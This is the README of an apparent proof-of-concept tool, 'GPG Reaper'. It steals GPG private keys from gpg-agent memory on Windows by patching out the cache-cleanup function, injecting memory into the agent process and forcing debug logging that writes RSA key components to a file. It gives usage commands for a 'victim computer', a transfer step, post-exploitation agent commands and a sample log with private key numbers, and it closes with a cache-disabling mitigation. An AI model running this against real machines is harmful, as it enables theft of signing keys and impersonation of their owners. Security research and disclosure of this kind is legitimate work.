







# GPG Reaper
**TL;DR: Obtain/Steal/Restore GPG Private Keys from gpg-agent cache/memory**


This POC demonstrates method for obtaining GPG private keys from `gpg-agent` memory under Windows.

Normally this should be possible only in `10` minutes time frame (`--default-cache-ttl` value).

Unfortunatelly `housekeeping()` function (which is responsible for cache cleanup) is executed only if you are [using GPG](#introduction) (there is no timer there).

This means that in normal GPG usecase like: `you sign some file then close GUI and do other task` you password is still in `gpg-agent` memory (even if ttl expired).

Attacker, whose has access to your current session, can use this for stealing private key without knowing your passphrase.



# Table of contents
* [Installation](#installation)
* [Test](#test)
* [Introduction](#introduction)
* [Usage](#usage)
* [Post exploitation on machine with GPG](#post-exploitation-on-machine-with-gpg)
* [Bypass private key export restriction](#bypass-private-key-export-restriction)
* [Conclusion](#conclusion)
* [Implementation](implementation)
* [Supported versions](#supported-versions)
* [FAQ](#faq)
* [Attribution](#attribution )

# Installation

```
pip install PGPy
```

If you got:

```
TypeError: Error when calling the metaclass bases metaclass conflict: the metaclass of a derived class must be a (non-strict) subclass of the metaclasses of all its bases` when running python script then:
```

then:

```
pip install six==1.10.0
```

# Test

1\. Install [Gpg4Win 2.3.4](http://files.gpg4win.org/gpg4win-2.3.4.exe)

2\. Open command line and start agent with `2` seconds cache time:
  ```
  cd c:\Program Files (x86)\GnuPG\bin
  taskkill /im gpg-agent.exe /F
  gpg-agent.exe --daemon --default-cache-ttl 2
  ```
3\. Run Kleopatra and generate new key pair

  

4\. Sign some example test file

  

5\. Pinetry will popup and ask you for passphrase

  

6\. Repeat step `4-5`. Each time `pinetry` shows up because our `2` seconds cache expired

7\. Run GPG reaper

  ```
  powershell -ExecutionPolicy Bypass -File Gpg-Reaper.ps1 -OutputFile testme.txt
  ```

  You will see something like:

  ```
  [+] Detect GPG version 3.0.3
  [*] Readed jmp bytes: F6-05-E0-F9-45-00-04-0F-85
  [*] Readed housekeeping bytes: 55
  [+] Find sec key
  [+] Check key grip:
  [*] uid           [ultimate] Adam Nowak <anowak@example.com>
  [+] Found public key
  [*] Allocate memory at: 2d00000
  [+] Read debug log C:\Users\user\AppData\Local\Temp\gpg_D98F5932C4193BF82B9C773F13899DD586A1DE38_KqALSXPH.txt
  [+] Key dumped
  [*] Kill background Job
  [*] Restore bytes
  ```

  As you can see we dump key. This is possible because we nop housekeeping function.

8\. Restore private key:

  ```
  python gpg_reaper.py .\testme.txt
  ```

  Private key is dumped to file:

  ```
  [+] Dump E057D86EE78A0EED070296C01BC8630ED9C841D0 - Adam Nowak <anowak@example.com>
  ```

# Introduction

[GPG-Agent](https://www.gnupg.org/documentation/manuals/gnupg/Invoking-GPG_002dAGENT.html) is a daemon to manage private keys independently from any protocol.

GUI interface communicates with agent using [Assuan Protocol](https://www.gnupg.org/documentation/manuals/gnupg/Agent-Protocol.html).

By default agent caches your credentials.

`--default-cache-ttl n` option set the time a cache entry is valid to n seconds.

The default is `600` seconds. Each time a cache entry is accessed, the entry’s timer is reset.

Under Windows sign process looks like this:



Crucial part here is [housekeeping()](https://github.com/gpg/gnupg/blob/20539ea5cad1903352e01ef95aecdda4d5cd999b/agent/cache.c#L194) function which is responsible for removing expired credentials from memory.

But there is one problem here: this function is executed only in two places ([inside agent_put_cache ](https://github.com/gpg/gnupg/blob/20539ea5cad1903352e01ef95aecdda4d5cd999b/agent/cache.c#L323) and [agent_get_cache](https://github.com/gpg/gnupg/blob/20539ea5cad1903352e01ef95aecdda4d5cd999b/agent/cache.c#L425)).

This means that cached credentials are **NOT** removed from memory until some gpg-agent commands which uses `agent_put_cache` or `agent_get_cache` or `agent_flush_cache` are executed.

# Usage

On victim computer:
```
powershell -ExecutionPolicy Bypass -File Gpg-Reaper.ps1 -OutputFile out.txt
```

Transfer `out.txt` to your machine and restore private keys:

```
gpg_reaper.py out.txt
```

Private keys will be dumped into separate files.

If GPG is installed outside default directories:

```
Gpg-Reaper -GpgConnectAgentPath c:\gpg\gpg-connect-agent.exe -GpgAgentPath c:\gpg\gpg-agent.exe -GpgPath c:\gpg\gpg.exe
```

If you don't want debug messages:

```
Gpg-Reaper -Verbose $false
```

# Post exploitation on machine with GPG

Let's assume that you are doing penetration testing and you obtain shell on computer with GPG installed.

If you are lucky and user use GPG recently and cache not expire you can:

1\. Sign some file:

  Run `c:\Program Files (x86)\GnuPG\bin\gpg-connect-agent.exe`

  * Get list of keys available on specific machine
  ```
  KEYINFO --list
  S KEYINFO 38EA3CACAF3A914C5EC2D05F86CDBDCFE83077D2 D - - - P - - -
  ```
  * Set keygrip and message hash
  ```
  SIGKEY 38EA3CACAF3A914C5EC2D05F86CDBDCFE83077D2
  # SHA512 of the message
  SETHASH 10 7bfa95a688924c47c7d22381f20cc926f524beacb13f84e203d4bd8cb6ba2fce81c57a5f059bf3d509926487bde925b3bcee0635e4f7baeba054e5dba696b2bf
  PKSIGN
  ```

2\. Export private key:

  Run `c:\Program Files (x86)\GnuPG\bin\gpg-connect-agent.exe`

  * Get wrapping key
  ```
  KEYWRAP_KEY --export
  ```

  * Export a secret key from the key store. The key will be encrypted using the current session's key wrapping key using the AESWRAP-128 algorithm
  ```
  EXPORT_KEY 38EA3CACAF3A914C5EC2D05F86CDBDCFE83077D2
  ```

  Unfortunately this is not working as expected and ask for password.

  Why? Because `cmd_export_key()` function is executing [agent_key_from_file()]( https://github.com/gpg/gnupg/blob/20539ea5cad1903352e01ef95aecdda4d5cd999b/agent/command.c#L2302) with `CACHE_MODE_IGNORE` flag which means that cache won't be used and user is asked for passphrase each time.

# Bypass private key export restriction

We know that it's [not possible](#post-exploitation-on-machine-with-gpg) to export GPG key through gpg-agent without knowing password.

But there is little quirk here. Agent has few [options](https://www.gnupg.org/documentation/manuals/gnupg/Agent-Options.html) available:

1\. `--debug-level`

  Select the debug level for investigating problems. level may be a numeric value or a keyword:

  >**guru** - All of the debug messages you can get.

2\. `--log-file file`

  Append all logging output to file. This is very helpful in seeing what the agent actually does.

Let's run agent using `gpg-agent.exe --daemon --debug-level guru --log-file out.txt` and sign some file.

```
2018-03-04 18:21:15 gpg-agent[7180] DBG: chan_0x0000008c <- SIGKEY 590A068768B6A5CB4DD81CD4828C72AD8427DFE4
2018-03-04 18:21:15 gpg-agent[7180] DBG: chan_0x0000008c -> OK
2018-03-04 18:21:15 gpg-agent[7180] DBG: chan_0x0000008c <- SETKEYDESC Please+enter+the+passphrase+to+unlock+the+OpenPGP+secret+key:%0A%22adam+nowak+<nowak@adam.xxx>%22%0A2048-bit+RSA+key,+ID+1308197BFDF95EAA,%0Acreated+2018-02-28.%0A
2018-03-04 18:21:15 gpg-agent[7180] DBG: chan_0x0000008c -> OK
2018-03-04 18:21:15 gpg-agent[7180] DBG: chan_0x0000008c <- SETHASH 8 B00357D0B85243BB34049E13FD5C328228BC53B317DF970594A1CED6CB89F4EA
2018-03-04 18:21:15 gpg-agent[7180] DBG: chan_0x0000008c -> OK
2018-03-04 18:21:15 gpg-agent[7180] DBG: chan_0x0000008c <- PKSIGN
2018-03-04 18:21:15 gpg-agent[7180] DBG: agent_get_cache '590A068768B6A5CB4DD81CD4828C72AD8427DFE4' (mode 2) ...
2018-03-04 18:21:15 gpg-agent[7180] DBG: ... miss
2018-03-04 18:21:15 gpg-agent[7180] starting a new PIN Entry
2018-03-04 18:21:15 gpg-agent[7180] DBG: connection to PIN entry established
2018-03-04 18:21:15 gpg-agent[7180] DBG: chan_0x0000008c -> INQUIRE PINENTRY_LAUNCHED 3736 qt 1.1.0 /dev/tty - -
2018-03-04 18:21:15 gpg-agent[7180] DBG: chan_0x0000008c <- END
2018-03-04 18:21:18 gpg-agent[7180] DBG: agent_put_cache '590A068768B6A5CB4DD81CD4828C72AD8427DFE4' (mode 2) requested ttl=0
2018-03-04 18:21:18 gpg-agent[7180] DBG: skey: (private-key
2018-03-04 18:21:18 gpg-agent[7180] DBG:        (rsa
2018-03-04 18:21:18 gpg-agent[7180] DBG:         (n #00EBF36EC96D941D126938C8BD7471F4BA4FF456A3034AD4EEBABABA3A6DE52445A2A67A4FB3DF8B90C6FD65D4B648D62749905DA1CEA7ECB8C31F7DC7ECF3B581668BA3041E6AD57DBE04D75E4C74612B310704B107AB49EE731FB991A7EE0B42E9BD4CD2FF09A2C5EC0AB13B4F53287706432BD03EFD5EA5AAC194CEF188018AAD3E394F14C587BB9A829E21EC39132652CED22B561EDB34E0E4FA64FD2E6035E035EA2592C2C89E71AD2B7A3B4BBFC14288D5448D6F7A64B37AB5AA80E5D34D03F9FC6375882D298DDBCB95F192C669DB141AA2B5F29F2DFC3B12DCB7385492C3EAD8F675901B78C69238A60E76163ED1130D9B4054A9A90AB8DA148280351F#)
2018-03-04 18:21:18 gpg-agent[7180] DBG:         (e #010001#)
2018-03-04 18:21:18 gpg-agent[7180] DBG:         (d #4B873C9EF0DB392524167FB7999742CA02FF095E9C16AFAB8D8D69407BDE1E2AC64279239B46032480762BCB17E09FE0AA9D3243B1E5B21280AF4B719C6974DFEBA5E63452D24AEDB9CE4DEC8B17B3E502082799CD8528A0D22C45181983CB0A0BCD4352C53DDDE3724807EC9EDB5538288286FB5DB6783E1AB765BD8AB6491B7021D17AEDD7494F902121C4B2C3BDB1447C0AABADD00FBD66EEC23882F9FC13DC967E6F1F5ABBAD9FA7E583360A31D3DAEC53CB46F981398CAAD511179E11B5BA04BDB79699AA58687287E9ABA9A820B22872C54078411A142AEA804497581AAD96FCBE4F01202AA4E687672973D26E7148AB7A269B60C68581817B1EB31DE5#)
2018-03-04 18:21:18 gpg-agent[7180] DBG:         (p #00ED6EA59EE03412314BF288629568237A649FACC88C5D6E2F266A58D1CF6BA26254526F916FF7CFC6AF5B5ED0618CE00099DCFB9CB1F7C6BAD6945A8125ECD6A352E8056644A7336FFE2C203B098ED7767FD51101FD4842F1DED870DFD4D1F947D5FB7AB13E318C977AB875F86785F8B98260BB3BA1F6133D03C9296F22875E23#)
2018-03-04 18:21:18 gpg-agent[7180] DBG:         (q #00FE67215C9C6FEF8C21C81A9B34AAB91FCD321D95E3641D7EFE4B89BBAD918CF94068AC89440147ED07E68EC65997568921DE740A504D2D99DDB997BE7DE09228678F544226F2D75F62447AECD7385773D9A7B0EF272B5CF4F32B4EFCB1B0B81893DE768B692D350CFB6B32A683DF773D66169A436DC233AD412FD438E366B6D5#)
2018-03-04 18:21:18 gpg-agent[7180] DBG:         (u #17BA591E668D2D78B1C74E5820A9FE31481232D34B6EBBC2004767512AD4835A42B0621EBE6CD4359BFD9B8DDA3DF234471C99B1CF553EBCF5019452143360FEC051024E43063913DD7A36FA1CA12C02FEAF07C4A4DA50C5286264BC38333C85371B13C704B1FA0265FA4DF17CC1E02B9E37ACA7D72AE40413CA6E5548107299#)))
2018-03-04 18:21:18 gpg-agent[7180] DBG: hash: (data
2018-03-04 18:21:18 gpg-agent[7180] DBG:        (flags pkcs1)
2018-03-04 18:21:18 gpg-agent[7180] DBG:        (hash sha256 #B00357D0B85243BB34049E13FD5C328228BC53B317DF970594A1CED6CB89F4EA#))
```

It looks like `guru` mode prints `n`, `e`, `d`, `p`, `q` and `u` numbers to log file. Knowing this we can [calculate](https://en.wikipedia.org/wiki/RSA_(cryptosystem)) public and private key.

Internally `skey` value is print by [gcry_log_debugsxp()](https://github.com/gpg/gnupg/blob/20539ea5cad1903352e01ef95aecdda4d5cd999b/agent/pksign.c#L484) when `DBG_CRYPTO` is set:

```
if (DBG_CRYPTO)
{
  gcry_log_debugsxp ("skey", s_skey);
  gcry_log_debugsxp ("hash", s_hash);
}
```

# Conclusion

If you want to protect against this attack you need to disable cache.

Create/modify: `%APPDATA%\gnupg\gpg-agent.conf`:

```
default-cache-ttl 0
max-cache-ttl 0
```

# Implementation

1. Check if `gpg-connect-agent.exe`, `gpg-agent.exe` and `gpg.exe` paths are correct

2. Check if sha256 of `gpg-agent.exe` is [supported](#supported-versions)

3. Check if `gpg-agent.exe` process is running and open it using [OpenProcess](https://msdn.microsoft.com/pl-pl/library/windows/desktop/ms684320.aspx)

4. [Start-Job](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/start-job?view=powershell-6) which kills all `pinentry` process instance. So when we ask for key which is not in cache we can continue without user interaction

5. Read original bytes from `housekeeping()` and `agent_pksign_do()` so we can restore them after script ExecutionPolicy

6. NOP `housekeeping()` function so it won't remove expired cache from memory
  

7. Get list of all available private keys using `gpg.exe --list-secret-keys --with-keygrip`

8. Get public key using `gpg.exe --armor --export %key_fingerprint%`

9. Allocate memory inside `gpg-agent.exe` using [VirtualAllocEx](https://msdn.microsoft.com/pl-pl/library/windows/desktop/aa366890.aspx). Store path to our log file there and call `log_set_file()`.

10. Replace `if (DBG_CRYPTO)` with call to our allocated memory from point **9** inside `agent_pksign_do()`.

  

11. Run followind command using `gpg-connect-agent.exe`:
```
SIGKEY %key_grip%
SETHASH 10 7bfa95a688924c47c7d22381f20cc926f524beacb13f84e203d4bd8cb6ba2fce81c57a5f059bf3d509926487bde925b3bcee0635e4f7baeba054e5dba696b2bf
PKSIGN
```
12. Check if log file contains  `n`, `e`, `d`, `p`, `q` and `u` numbers. If yes, return them to user.

13. Repeat point **8-11** for each key from point **7**

Now using [PGPy](https://github.com/SecurityInnovation/PGPy) library we can restore private key. See: [gpg_reaper.py](https://github.com/kacperszurek/gpg_reaper/blob/master/gpg_reaper.py)

# Supported versions

Gpg-agent is compiled without `ASLR` so I use some hardcoded offsets inside PowerShell script.

Because of that only specified versions are supported:

|  Version |gpg-agent.exe sha256 |
|:---:|:---:|
|3.0.3|D1B331229966F1DCD00988BDE45E6496D447ECBF90AE35046859A67D5B55665A|
|3.0.2|3FDF8E4509DEEA66646F98C4A23AA7C4E0C124997BD2C66E706E4A969DDA18A8|
|3.0.1|BE46382E6BCBF5B358B9D01C5435C326325DB5968955B7A6EC0055607DA51CEE|
|3.0.0|C9F4248E1D2B1B88C5037608BB56217703573A243B793C3D9FE76F1A652324FC|

# FAQ

1. Why PowerShell?

  Because this file can be run without any external dependencies on most modern Windows systems.

2. GPG %file% not exist

  `gpg-connect-agent.exe`, `gpg-agent.exe` or `gpg.exe` does not exist in default location.

  You can try to specify custom location using:

  ```
  Gpg-Reaper -GpgConnectAgentPath c:\gpg\gpg-connect-agent.exe -GpgAgentPath c:\gpg\gpg-agent.exe -GpgPath c:\gpg\gpg.exe
  ```

3. No gpg-agent running

  `gpg-agent.exe` is not running on this system so we cannot restore private key.

4. Unknown gpg-agent version, sha256:

  Currently this script support only [specific versions](#supported-versions)

5. No cached key

  There is no cached key in memory so we cannot restore private key.

# Attribution

Scythe icon made by [Freepik](https://www.freepik.com/) from [www.flaticon.com](https://www.flaticon.com).

[Solstice Of Suffering](http://www.1001fonts.com/solsticeofsuffering-font.html) font by GraveTech.
